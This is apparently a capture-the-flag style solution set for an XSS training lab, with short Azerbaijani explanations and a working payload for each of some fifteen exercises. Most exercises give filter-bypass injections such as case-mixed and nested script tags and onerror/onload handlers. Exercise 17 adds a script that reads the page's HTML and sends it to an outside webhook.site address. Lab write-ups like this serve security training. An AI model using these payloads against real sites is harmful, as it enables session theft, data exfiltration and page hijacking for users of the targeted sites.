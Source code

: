 Exercise 1 – A Truly Disruptive Startup
saytın axtarış bölməsində bu kodu(<script>success()</script>) yazırıq və axtar düyməsinə klikləyirik.
sayt xss hücumundan müdafiə olunmadığı üçün hücumumuz uğurlu olacaq.

Exercise 2 – No Script Allowed
ikinci tapşırıqda server yazdığımız kodun başındakı scripti təmizləyir.Serveri aldatmağımız üçün belə bir kod yazmağımız kifayətdir.</script><script>success()</script>


Exercise 3 – One More Time, Like You Mean It
üçüncü tapşırıqda yazdığımız kodun hər iki tərəfindəki script teqini silir.<scrscriptipt>alert(1)</scrscriptipt>


Exercise 4 – An Open-and-Shut Case
server daxil olunan koddakı script teglərini təmizləyir.Yazılışda biraz dəyişiklik etsək müdafiəni aşa bilərik.<ScRiPt>success()</sCriPt>        

Exercise 5 – Time to Mix Things Up
5-ci tapşırıqda server daxil olunan script və SCRİPT teqlərini təmizləyir.<ScRiPt>success()</sCriPt>

Exercise 6 – A Picture is Worth a Thousand Words
6-cı tapşırıqda server script teqini yazılışından asılı olmayaraq təmizlədiyindən biz başqa teqlərdən istifadə etməliyik. <image src =q onerror=success()>

Exercise 7 – Between a Rock And a Hard Place
        <button onClick="success()">Submit</button>

Exercise 8 – Angle of Death
        <!--<img src="--><img src=x onerror=javascript:success()//">

Exercise 10 – In the Wrong Place at the Wrong Time
        "<img src=/ onerror="success()" />

Exercise 11 – You Can't Win 'em All
        "" onerror="success()"

Exercise 12 – When All is Said and Done
        ' onload=success()

Exercise 14 – Here Today and Gone Tomorrow
        http://caloogle.xyz:4120/search?q=%27+onload%3D%27success%28%29%27

Exercise 15 – The Early Bird Catches the Worm
        </script> <img src=/ onerror=success() /> <script>

Exercise 16 – Tying Up Loose Ends
        <<<///scrip<<//script>>t>>><img src =q onerror=success()>

Exercise 17 – Take a Page Out of Their Book
        function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}
 
send('<script> payload = document.documentElement.innerHTML; window.location="https://webhook.site/my-private-id?query=" + encodeURIComponent(payload); </script>')
